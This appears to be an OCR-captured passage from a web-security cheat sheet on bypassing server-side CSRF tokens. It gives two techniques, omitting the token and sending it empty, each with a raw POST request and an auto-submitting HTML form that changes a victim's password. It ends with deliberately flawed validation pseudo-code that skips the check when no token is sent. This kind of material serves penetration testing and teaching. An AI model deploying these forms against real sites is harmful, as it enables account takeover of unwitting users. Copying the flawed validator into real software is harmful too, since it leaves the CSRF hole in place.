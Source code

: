         - **Bypass CSRF Tokens stored on the server**
            
            ```html
            # remove the token
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE
            (POST request body)
            new_password=abc123
            -------------------------------------------------------------
            <html>
             <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
             <input type="text" name="new_password" value="abc123">
             <input type='submit' value="Submit">
             </form>
             <script>document.getElementById("csrf-form").submit();</script>
            </html>
            ----------------------------------------------------------------
            # Empty Parameter
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE
            (POST request body)
            new_password=abc123&csrf_token=
            ---------------------------------------------------------------------
            <html>
             <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
             <input type="text" name="new_password" value="abc123">
             <input type="text" name="csrf_token" value="">
             <input type='submit' value="Submit">
            </form>
             <script>document.getElementById("csrf-form").submit();</script>
            </html>
            --------------------------
            # Expected Code
            def validate_token():
             if (request.csrf_token == session.csrf_token):
            		 pass
             else:
            	 throw_error("CSRF token incorrect. Request rejected.")
            [...]
            def process_state_changing_action():
            	 if request.csrf_token:
            		 validate_token()
            		 execute_action()
            ```
            